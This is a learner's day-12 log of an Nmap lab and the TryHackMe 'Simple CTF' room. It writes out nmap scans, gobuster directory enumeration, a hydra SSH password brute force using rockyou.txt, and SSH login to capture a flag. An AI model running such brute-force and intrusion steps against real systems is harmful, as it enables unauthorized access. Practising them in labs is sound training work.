 # Day 12 – Nmap Lab (CrackTheLab) & Simple CTF (TryHackMe)

## 🧪 Practical Focus: Nmap Exploration and CTF-based Exploitation

On Day 12, I completed two important labs:

1. **Nmap Lab on CrackTheLab** – Strengthened my command-line proficiency and manual page navigation for Nmap.
2. **Simple CTF Room on TryHackMe** – Reinforced scanning, enumeration, and brute-force access techniques.

---

## 🔍 Part 1: Nmap Lab (CrackTheLab)

### 🎯 Objective:
To understand and master the core functionalities and flags of the `nmap` tool without relying on online resources.

### 🔧 Methodology:
- Used `nmap --help` and `man nmap` to explore options, flags, and scanning techniques.
- Completed all tasks by referencing **only local help documentation**.

### 📌 Key Takeaways:
- Learned about different types of scans:
  - SYN Scan (`-sS`)
  - Service Version Detection (`-sV`)
  - OS Detection (`-O`)
  - Script Scanning (`-sC`)
- Understood how to perform:
  - TCP and UDP scanning
  - Scan timing and performance tuning (`-T1` to `-T5`)
  - Output formatting (`-oN`, `-oX`, `-oG`, `-oA`)
- Emphasized *self-reliance* and *documentation reading* as critical skills for penetration testers.

---

## 🔓 Part 2: TryHackMe – "Simple CTF"

### 🛠️ Tools Used:
- `nmap` for scanning
- `gobuster` for directory enumeration
- `hydra` for brute-force attack
- `ssh` for remote access

### 📌 Attack Strategy:

#### 🔍 1. Nmap Scan
Executed an aggressive scan to identify live services:

```bash
nmap -sC -sV -oN simplectf.txt <target-IP>
```
### 🕸️ 2. Directory Brute-Forcing with Gobuster

```bash
gobuster dir -u http://<target-IP> -w /usr/share/wordlists/dirb/common.txt
```
> Found a subdirectory revealing a username.

### 🔐 3. SSH Password Brute-Force using Hydra

```bash
hydra -l <username> -P /usr/share/wordlists/rockyou.txt ssh://<target-IP>:2222
```
> Successfully obtained valid SSH credentials.

### 📥 4. SSH Access and Flag Capture

```bash
ssh <username>@<target-IP> -p 2222
cat user.txt
```
> ✅ User.txt flag retrieved successfully.

---

## 📝 Summary

Day 12 focused on enhancing my manual tool usage and applying prior theoretical knowledge in a structured attack environment. I completed an Nmap lab without external references, strengthening my command-line research capabilities. The "Simple CTF" room on TryHackMe reinforced concepts of service enumeration, brute-force, and SSH exploitation. These practicals demonstrate growing confidence in real-world engagement techniques.

